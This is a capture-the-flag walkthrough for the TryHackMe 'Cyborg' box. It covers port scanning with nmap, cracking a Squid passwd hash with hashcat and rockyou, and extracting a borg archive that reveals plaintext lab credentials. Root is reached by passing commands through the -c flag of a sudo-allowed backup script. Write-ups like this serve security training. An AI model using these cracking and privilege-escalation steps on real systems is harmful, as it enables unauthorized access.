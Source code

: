 ```yaml
---
title: Walkthrough - Cyborg
published: true
---
```


A box involving encrypted archives, source code analysis and more.

[https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

* * *

## Scan the machine, how many ports are open?

- ``sudo nmap -T4 -F 10.10.173.237``

* * *

## What service is running on port 22?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What service is running on port 80?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What is the user.txt flag?

In ``/etc/squid`` found a passwd file with an MD5 (APR) hash - cracked ``hashcat -m 1600 music_archive.hash /usr/share/seclists/Passwords/rockyou.txt`` - squidward

- Website is running Squid Proxy?
- Downloaded archive from ``/admin/`` and extract
- this is a borg archive hence cyborg, so can install borg and extract
- ``borg extract final_archive::music_archive`` with the pass we got 

```shell
┌──(0xskar㉿cocokali)-[~/…/dev/home/alex/Documents]
└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

* * *

## What is the root.txt flag?

```shell
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- backup.sh isnt writable. but checking out the script we can pass it commands.
- ``sudo /etc/mp3backups/backup.sh -c 'ls -las /root'`` 
- ``sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'``

* * * 